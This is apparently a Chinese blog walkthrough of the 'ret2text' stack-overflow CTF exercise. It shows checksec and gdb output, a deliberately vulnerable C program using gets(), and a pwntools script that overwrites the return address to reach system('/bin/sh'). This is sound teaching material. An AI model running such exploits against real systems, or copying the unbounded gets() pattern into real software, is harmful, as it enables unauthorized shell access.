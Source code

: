 ```yaml
---

layout:     post
title:      ret2text
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




本文讲解栈溢出中，最简单的利用

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



[程序下载](https://maoshuu.oss-cn-beijing.aliyuncs.com/elf/ret2text)



第一步

利用pwntools的checksec查看elf文件的保护措施

```
#checksec ret2text

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



第二步

利用file命令，查看文件信息

```
file ret2text

ret2text: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked
```



第三步

ida分析程序，双击左边的main函数，然后按F5，出现伪C代码

![image-20180911153947593](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-074400.jpg)



简单分析，能够发现第九行gets函数存在溢出，

![image-20180911154339254](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-074405.png)



buf的长度为0x64=100，如果gets函数接收到的数据长度大于100，肯定会覆盖buf外的数据

![image-20180911154833684](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-075031.png)



第四步

定位覆盖函数返回地址的位置

cyclic 200

![image-20180911160406996](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-080411.png)



gdb -q ret2text，run命令运行程序，然后把cyclic生成的字符串输入

![image-20180911160327983](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-080333.png)

观察eip寄存器的值，变成了0x62616164，main函数返回地址被覆盖为0x62616164



cyclic -l 0x62616164

![image-20180911160531664](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081819.png)



第五步

确定函数的ret返回地址

![image-20180911160642678](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081739.png)



双击system函数

![image-20180911160718703](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081743.png)



选中system函数，按x快捷键

![image-20180911160739851](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081747.png)



进入程序调用system函数的代码区，我们发现程序直接执行了system('/bin/sh')

![image-20180911160820091](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081758.png)



我们让main函数的ret地址返回到这里执行system('/bin/sh')

按一下tab键

![image-20180911161021606](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081755.png)

确定system('/bin/sh')的汇编代码的地址为 0x0804863A，0x08048641是call system函数，但是调用函数之前需要传递参数，0x0804863A是传递参数的过程，两句汇编代码结合起来就是system('/bin/sh')这句c代码

```c
ret2text.c

#include <stdio.h>
#include <stdlib.h>
#include <time.h>

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("/bin/sh");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("There is something amazing here, do you know anything?\n");
    gets(buf);
    printf("Maybe I will tell you next time !");

    return 0;
}
```





exp脚本：

```
#!/usr/bin/env python

from pwn import *

remote_is = 1

if remote_is:
	sh = remote('127.0.0.1', 4444)
else:
	sh = process('./ret2text')

system_addr = 0x804863A
sh.sendline('a'*112 + p32(system_addr))

sh.interactive()
```


